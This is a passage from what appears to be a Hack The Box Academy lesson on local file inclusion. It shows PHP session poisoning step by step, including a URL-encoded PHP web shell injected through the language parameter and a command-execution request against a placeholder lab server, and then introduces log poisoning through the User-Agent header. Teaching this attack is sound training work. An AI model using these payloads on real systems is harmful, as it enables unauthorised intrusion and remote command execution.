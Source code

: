 ![](https://academy.hackthebox.com/storage/modules/23/rfi_session_include.png)

**Note:**Â As you may easily guess, the cookie value will differ from one session to another, so you need to use the cookie value you find in your own session to perform the same attack.

We can see that the session file contains two values:Â `page`, which shows the selected language page, andÂ `preference`, which shows the selected language. TheÂ `preference`Â value is not under our control, as we did not specify it anywhere and must be automatically specified. However, theÂ `page`Â value is under our control, as we can control it through theÂ `?language=`Â parameter.

Let's try setting the value ofÂ `page`Â a custom value (e.g.Â `language parameter`) and see if it changes in the session file. We can do so by simply visiting the page withÂ `?language=session_poisoning`Â specified, as follows:


```url
http://<SERVER_IP>:<PORT>/index.php?language=session_poisoning
```

Now, let's include the session file once again to look at the contents:

```
http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd
```

![](https://academy.hackthebox.com/storage/modules/23/lfi_poisoned_sessid.png)

This time, the session file containsÂ `session_poisoning`Â instead ofÂ `es.php`, which confirms our ability to control the value ofÂ `page`Â in the session file. Our next step is to perform theÂ `poisoning`Â step by writing PHP code to the session file. We can write a basic PHP web shell by changing theÂ `?language=`Â parameter to a URL encoded web shell, as follows:


```url
http://<SERVER_IP>:<PORT>/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E
```

Finally, we can include the session file and use theÂ `&cmd=id`Â to execute a commands:

```
http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd&cmd=id
```

![](https://academy.hackthebox.com/storage/modules/23/rfi_session_id.png)

Note: To execute another command, the session file has to be poisoned with the web shell again, as it gets overwritten withÂ `/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd`Â after our last inclusion. Ideally, we would use the poisoned web shell to write a permanent web shell to the web directory, or send a reverse shell for easier interaction.

---

## Server Log Poisoning

BothÂ `Apache`Â andÂ `Nginx`Â maintain various log files, such asÂ `access.log`Â andÂ `error.log`. TheÂ `access.log`Â file contains various information about all requests made to the server, including each request'sÂ `User-Agent`Â header. As we can control theÂ `User-Agent`Â header in our requests, we can use it to poison the server logs as we did above.
